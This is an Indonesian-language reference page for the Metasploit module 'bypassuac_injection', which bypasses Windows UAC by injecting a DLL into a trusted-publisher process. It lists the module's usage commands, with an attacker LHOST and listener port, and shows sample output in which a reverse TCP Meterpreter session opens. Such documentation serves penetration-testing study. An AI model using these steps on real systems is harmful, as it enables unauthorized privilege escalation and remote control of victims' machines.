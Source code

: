 # bypassuac_injection

Modul ini akan melewati `UAC` (`User Account Control`) di Windows dengan memanfaatkan sertifikat trusted publisher melalui teknik injeksi proses (`process injection`). Modul ini akan memunculkan shell kedua yang memiliki bendera `UAC` dinonaktifkan, sehingga shell tersebut akan berjalan tanpa pembatasan `UAC`. Modul ini menggunakan teknik `Reflective DLL Injection`, yang berarti hanya payload dalam bentuk `DLL` yang disisipkan, bukan tiga binary terpisah seperti pada teknik standar.

Namun, modul ini memerlukan arsitektur yang tepat:

- Gunakan `x64` untuk sistem `SYSWOW64` (`Windows 64-bit` yang menjalankan proses `32-bit`).

Jika kamu menentukan `EXE::Custom`, maka `DLL` milikmu harus memanggil `ExitProcess()` setelah menjalankan payload di proses terpisah, agar proses induk dapat berhenti dengan benar.


## Penulis
- David Kennedy "ReL1K" kennedyd013@gmail.com
- mitnick
- mubix mubix@hak5.org
- Ben Campbell eat_meatballs@hotmail.co.uk
- Lesage
- OJ Reeves

## Platform
- `Windows`
  
## Cara Penggunaan di Metasploit

```
use exploit/windows/local/bypassuac_injection
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[+] Windows 7 Service Pack 1 may be vulnerable.
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Uploading the Payload DLL to the filesystem...
[*] Payload DLL 9216 bytes long being uploaded..
[*] Spawning process with Windows Publisher Certificate, to inject into...
[*] Injecting  into process ID 4016
[*] Opening process 4016
[*] Injecting struct into 4016
[*] Executing payload
[+] Successfully injected payload in to process: 4016
[*] Sending stage (177734 bytes) to 192.168.1.53
[+] Deleted C:\Users\admin\AppData\Local\Temp\DFWlaRNL.dll
[*] Meterpreter session 13 opened (192.168.1.11:4444 -> 192.168.1.53:49160) at 2025-05-17 05:45:29 +0700

meterpreter >
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/local/bypassuac_injection/)
